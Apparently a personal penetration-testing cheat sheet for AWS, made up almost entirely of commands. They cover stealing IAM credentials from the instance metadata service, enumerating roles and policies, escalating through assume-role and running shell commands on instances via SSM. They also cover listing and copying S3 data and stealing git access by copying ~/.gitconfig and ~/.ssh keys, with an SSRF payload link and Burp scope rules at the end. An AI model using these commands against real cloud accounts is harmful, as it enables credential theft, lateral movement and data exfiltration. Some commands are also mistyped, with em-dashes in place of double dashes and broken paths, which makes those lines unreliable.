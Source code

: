 # AWS

## Stealing AWS token from metadata service
```
curl  http://169.254.169.254/latest/meta-data/iam/security-credentials/
```
* Copy the role name returned
```
curl  http://169.254.169.254/latest/meta-data/iam/security-credentials/<role_name>
```

or
```
export ROLE_NAME=`curl -s http://169.254.169.254/latest/meta-data/iam/security-credentials/`
echo "Instance role is ${ROLE_NAME}"
curl -s http://169.254.169.254/latest/meta-data/iam/security-credentials/${ROLE_NAME}/
```

### aws cli
```
aws sts get-session-token
```
won’t work if you’re already using session creds

## Finding out who you are
Pull the instance profile from metadata
```
curl  http://169.254.169.254/latest/meta-data/iam/info/
```
* Copy the InstanceProfileArn field from the result

Pull the role name from metadata
```
curl  http://169.254.169.254/latest/meta-data/iam/security-credentials/
```

AWS command line
```
aws sts get-caller-identity
```

## Finding out what you have access to
Get Role. Shows trust relationships.
```
aws iam get-role --role-name ${ROLE}
```

List managed policies attached to role
```
aws iam list-attached-role-policies --role-name $ROLE
```

Get Inline Role Names
```
aws iam list-role-policies --role-name $ROLE
```

Iterate over all inline policies
```
for POLICYNAME in `aws iam list-role-policies --role-name $ROLE | jq -r '.PolicyNames[]'`; do aws iam get-role-policy --role-name $ROLE --policy-name $POLICYNAME; done
```
Retrieves the specified inline policy document that is embedded with the specified IAM role.
```
aws iam get-role-policy --role-name <value>
```
aws iam get-instance-profile —instance-profile-name <instance_profile_name>     (gets roles and policies that this instance profile has)

---
Escalation (using assume role)


Pulling interesting metadata
curl  http://169.254.169.254/latest/meta-data/
curl  http://169.254.169.254/latest/user-data
curl  http://169.254.169.254/latest/dynamic/
curl  http://169.254.169.254/latest/meta-data/iam/info/
curl  http://169.254.169.254/latest/meta-data/iam/security-credentials/<instance_profile_name>

Running aws-configure
mkdir ~/.aws
cat <<EOF >~.awsconfig
[default]
output = json
region = us-east-1
EOF



Aws CLI fun
aws iam get-instance-profile —instance-profile-name <instance_profile_name>
aws iam get-role —role-name jslave
aws iam list-account-aliases
aws ec2 describe-security-groups —group-names ‘Default’ —query ‘SecurityGroups[0].OwnerId’ —output text               (cheat for getting current account id)
aws iam list-roles
aws iam list-attached-role-policies —role-name <role_name>
aws iam list-role-policies —-role-name <role_name>
aws iam get-role-policy —-role-name <role_name> —policy-name <policy_name>


Aws CLI get current user (one of these may work)
aws iam get-user
aws sts get-caller-identity

AWS SSM Run commands
aws ssm send-command --instance-ids "i-0ddd4588e3ab7bd99" --document-name "AWS-RunShellScript" --comment "IP config" --parameters commands=ifconfig --output text


Getting account info

Get-caller-identity gives the account number. List-account-aliases gives alias.
aws sts get-caller-identity
aws iam list-account-aliases

Sign in URL
https://Your_AWS_Account_ID.signin.aws.amazon.com/console/
https://Your_Alias.signin.aws.amazon.com/console/


AWS S3 CLI

aws s3 ls
aws s3 ls s3://bucket/dir/
aws s3 cp s3://bucket/dir/file .

AWS codecommit
aws codecommit list-repositories —region us-east-1

Things to work on
$ aws sts get-session-token
—

Testing git access

cat ~/.gitconfig
find / | grep ‘.git/config’        (finding any local git repos)
cat ….git/config               (finding where the git repos are hosted)
git config —list

* there does not seem to be a way to get a list of all repos. bitbucket has an api that will list them if you have a username/password (and not just an ssh key)

Stealing git access

* copy ~gitconfig and all the files in ~.ssh

SSRF notes

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery

# Assume Role
If a given role can assume other roles, this is how to switch
aws sts assume-role --role-arn "arn:aws:iam::123456789012:role/example-role" --role-session-name AWSCLI-Session

# Burp AWS Scopes
^.*\.amazonaws\.com$
^.*\.cloudfront\.net$

## Config file format
```
{
    "enabled":true,
    "host":"^.*\\.amazonaws\\.com$",
    "protocol":"any"
},
{
    "enabled":true,
    "host":"^.*\\.cloudfront\\.net$",
    "protocol":"any"
}
```
